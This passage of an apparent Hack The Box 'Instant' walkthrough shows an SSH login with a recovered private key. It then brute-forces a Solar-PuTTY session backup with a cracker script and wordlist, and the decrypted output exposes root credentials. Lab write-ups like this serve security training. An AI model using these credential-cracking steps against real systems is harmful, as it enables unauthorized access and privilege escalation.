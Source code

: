 ```bash
┌──(pshegger㉿suki)-[~/Documents/htb/instant]
└─$ chmod 600 shirohige_id_rsa

┌──(pshegger㉿suki)-[~/Documents/htb/instant]
└─$ ssh shirohige@instant.htb -i shirohige_id_rsa
# ...SNIP...

Last login: Sun Oct 13 18:24:24 2024 from 10.10.14.130
shirohige@instant:~$ cat user.txt
<REDACTED>
```

# Solar PuTTY

Once we are on the machine, we can start looking for possible ways of privilege escalation.

Looking around the filesystem is a good starting point, and if we're observant enough, we can find a file called `sessions-backup.dat` in the folder `/opt/backups/Solar-PuTTY`.

If we're not familiar with Solar PuTTY, we can look into it with a simple Google search, and learn that it's an SSH client for Windows, and we can also find that it supports saving credentials. We can assume that the previously mentioned backup file will have something useful for us.

We can start looking for ways of extracting the backed-up data from the file, and we will soon come across [this post](https://voidsec.com/solarputtydecrypt/) by [VoidSec](https://x.com/Void_Sec). The post has some insight into how the file is encrypted, and it also contains a tool that can decrypt it if we know the password. Since we don't know the encryption password, we can try brute-forcing it, but that needs a separate tool (or modifications to this one). Luckily, someone already implemented this as a Python script, which you can find [here](https://github.com/ItsWatchMakerr/SolarPuttyCracker/blob/main/SolarPuttyCracker.py).

```bash
┌──(.venv)─(pshegger㉿suki)-[~/Documents/htb/instant/SolarPuttyCracker]
└─$ python SolarPuttyCracker.py -w /usr/share/wordlists/rockyou.txt ../sessions-backup.dat -v
# ...SNIP...
Testing password 'princesa': Incorrect
Testing password 'alexandra': Incorrect
Testing password 'alexis': Incorrect
Testing password 'jesus': Incorrect
Decryption successful using password: estrella
[+] DONE Decrypted file is saved in: SolarPutty_sessions_decrypted.txt

┌──(.venv)─(pshegger㉿suki)-[~/Documents/htb/instant/SolarPuttyCracker]
└─$ cat SolarPutty_sessions_decrypted.txt
{
    "Sessions": [
        # ...SNIP...
    ],
    "Credentials": [
        {
            "Id": "452ed919-530e-419b-b721-da76cbe8ed04",
            "CredentialsName": "instant-root",
            "Username": "root",
            "Password": "12<REDACTED>12",
            "PrivateKeyPath": "",
            "Passphrase": "",
            "PrivateKeyContent": null
        }
    ],
    "AuthScript": [],
    "Groups": [],
    "Tunnels": [],
    "LogsFolderDestination": "C:\\ProgramData\\SolarWinds\\Logs\\Solar-PuTTY\\SessionLogs"
}
```